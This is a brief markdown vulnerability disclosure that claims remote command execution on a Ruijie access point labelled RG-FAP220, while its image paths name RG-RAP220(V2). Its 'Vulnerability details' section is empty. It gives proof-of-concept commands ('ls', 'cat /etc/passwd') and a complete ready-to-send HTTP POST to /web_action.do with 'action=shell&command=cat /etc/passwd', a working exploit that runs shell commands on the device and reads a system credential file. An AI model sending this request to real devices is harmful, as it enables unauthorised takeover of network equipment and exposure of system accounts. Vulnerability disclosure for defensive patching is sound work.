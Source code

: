 # RG-FAP220 RCE
## Overview

![image-20231222163155940](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222163155940.png)

## Vulnerability details



## POC

ls

![image-20231222164924298](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222164924298.png)

cat /etc/passwd

![image-20231222163247926](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222163247926.png)

## EXP

```
POST /web_action.do HTTP/1.1
Host: 192.168.110.1
Content-Length: 38
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.110.1
Referer: http://192.168.110.1/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: LOCAL_LANG_COOKIE=zh; UI_LOCAL_COOKIE=zh; mac=0074.9ce6.95c0; SID=D65FDBE5CA6D86B59F94D3BF3872D87
Connection: close

action=shell&command=cat /etc/passwd
```

